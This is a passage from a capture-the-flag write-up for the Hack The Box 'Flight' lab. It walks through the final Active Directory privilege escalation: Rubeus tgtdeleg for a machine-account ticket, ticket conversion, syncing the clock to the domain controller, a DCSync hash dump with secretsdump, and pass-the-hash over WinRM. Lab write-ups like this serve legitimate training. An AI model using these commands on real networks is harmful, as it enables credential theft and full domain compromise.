

Instead of trying to get plaintext credentials the conventional way, we can use this fact that our account falls back to `G0$` in order to make a ticket request for the machine account. I'll use [Rubeus](https://github.com/GhostPack/Rubeus) for this next step due to it being very reliable for all things Kerberos-related. We just want to request a fake delegation ticket-granting-ticket so that we have everything for a DCSync attack.

```
.\Rubeus.exe tgtdeleg
```



With a valid ticket for the `G0$` machine account, we can now move on. If you're unfamiliar, a DCSync attack abuses Active Directory's replication feature to impersonate a domain controller and dump password hashes for any domain user. With the right privileges, an attacker can quietly extract credentials without touching the domain controller itself. 

Next, we must convert this base64 encoded ticket into a format readable by my Kali machine and export it as the `KRB5CCNAME` variable. There are plenty of tools out there, but I like using [kirbi2ccache](https://github.com/skelsec/minikerberos/blob/main/minikerberos/examples/kirbi2ccache.py). 

```
$ python3 kirbi2ccache.py ticket.kirbi ticket.ccache 
INFO:root:Parsing kirbi file /home/cbev/ticket.kirbi
INFO:root:Done!

export KRB5CCNAME=ticket.ccache
```

Before just running Impacket's [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) script, we need to sync our machine with the DC so we don't run into a timing issue. If you can get away with just using an ntpdate command, then go for it, but I've never gotten it to work.

```
#Stopping my machine's timsyncd processes
$ sudo systemctl stop systemd-timesyncd
$ sudo systemctl disable systemd-timesyncd
$ sudo systemctl stop chronyd 2>/dev/null
$ sudo systemctl disable chronyd 2>/dev/null

#Set Clock skew to match the DC's
$ sudo rdate -n flight.htb
```

Once our clock skew is aligned with the domain controller's, we just need to run SecretsDump to extract all user hashes on the system.



Finally, utilizing a pass-the-hash attack in order to WinRM onto the box will give us full access over the domain and we can grab the final flag under the admin's desktop folder to complete the challenge.



That's all y'all, this box was very challenging for me because even though I knew most of the material, there wasn't much to go off of at times. Huge thanks to [Geiseric](https://app.hackthebox.com/users/184611) and [JDgodd](https://app.hackthebox.com/users/481778?profile-top-tab=machines&ownership-period=1M&profile-bottom-tab=prolabs) for creating this fantastic box. I hope this was helpful to anyone following along or stuck and happy hacking!
